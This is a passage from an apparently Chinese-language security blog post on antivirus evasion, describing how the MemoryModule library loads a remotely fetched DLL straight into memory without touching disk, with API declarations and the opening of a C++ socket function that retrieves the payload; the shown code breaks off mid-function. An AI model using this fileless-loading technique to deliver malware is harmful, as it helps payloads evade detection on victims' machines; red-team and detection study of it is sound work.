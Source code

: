 ```yaml
---
title: MemoryModule内存反射DLL加载--远程恶意文件不落地加载
tags: 免杀
---
```


### 0x00 前言

​	此篇文章的思路是来自于倾旋师傅的[静态恶意代码逃逸（第六课）](https://payloads.online/archivers/2020-01-02/1)

​	PS：这个系列文章进行入门学习还是非常好的。

​	我认为对于一个渗透人员，免杀技术还是比较重要的，而且其实想达到一定的效果也不是太费劲，学习的过程中，你也可以了解很多Windows编程的知识、熟悉很多API、各种代码注入技术等等，对之后的学习、发展也有帮助。当然你使用python、Go...这些语言去做免杀可能更简单，但是还是推荐用C系列的，为了自己的学习还是更好。

### 0x01 关于MemoryModule

https://github.com/fancycode/MemoryModule

> MemoryModule is a C-library that can be used to load a DLL from memory.



​	比较著名的WannaCry在加载加密函数动态库的时候，并没有调用LoadLibrary()函数，而是自己实现将其加载到指定内存，并自己实现GetProcAddress()从而实现函数的调用。这样有什么好处呢？这样便无法查到它的加载模块与函数地址。

​	而 MemoryModule 相当于该项目实现了自己的LoadLibrary函数，将DLL 加载到内存中，然后进行常规的DLL 操作。

查看Github发现我们可以这样使用：

```c++
typedef void *HMEMORYMODULE;

HMEMORYMODULE MemoryLoadLibrary(const void *, size_t);
FARPROC MemoryGetProcAddress(HMEMORYMODULE, const char *);
void MemoryFreeLibrary(HMEMORYMODULE);
```

### 0x02 代码阅读

简单阅读一下[静态恶意代码逃逸（第六课）](https://payloads.online/archivers/2020-01-02/1)所提供的代码：

获取远端DLL代码：

```c++
BOOL GetTOOL(const char* address, int port) {

	DWORD dwError;
	WORD sockVersion = MAKEWORD(2, 2);
	WSADATA wsaData;
	SOCKET socks;
	SHORT sListenPort = port;
	struct sockaddr_in sin;

	if (WSAStartup(sockVersion, &wsaData) != 0)
	{
		dwError = GetLastError();
		return FALSE;
	}

	socks = socket(AF_INET, SOCK_STREAM, IPPROTO_TCP);

	if (socks == INVALID_SOCKET)
	{
		dwError = GetLastError();
		return FALSE;
	}

	sin.sin_family = AF_INET;
```